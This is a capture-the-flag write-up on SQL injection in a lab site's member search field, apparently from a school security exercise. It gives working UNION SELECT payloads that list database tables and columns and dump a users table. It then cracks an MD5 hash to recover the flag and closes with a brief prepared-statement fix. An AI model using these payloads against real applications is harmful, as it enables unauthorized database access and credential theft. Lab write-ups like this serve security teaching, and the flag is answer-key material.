 # 02_inject_me_member

The GET parameter in the member search form is vulnerable.

## Method

Go to ?page=member
In the search field, search `1 AND 1=1`

## How to exploit

In the search field, run `-1 union select null, concat (table_name) from information_schema.tables where table_schema = database ()`  
This will return a table name.  
Then, in the same search field, run `-1 union select null, concat (column_name) from information_schema.columns where table_schema = database ()`  
This will return the column names.  
Lastly, in the search field, run `-1 union select NULL, concat (user_id, first_name, last_name, town, country, planet, Commentaire, countersign) from users`  
This will return the users from the table:  

```Decrypt this password -> then lower all the char. Sh256 on it and it's good ! | 5ff9d0165b4f92b14994e5c685cdce28```  

MD5 decrypt: `5ff9d0165b4f92b14994e5c685cdce28`  
Follwed by sha256: `FortyTwo -> fortytwo`  
Flag: `10A16D834F9B1E4068B25C4C46FE0284E99E44DCEAF08098FC83925BA6310FF5`


## Solution

- Send form as POST request
- Add prepared statements to backend to prevent SQL injection
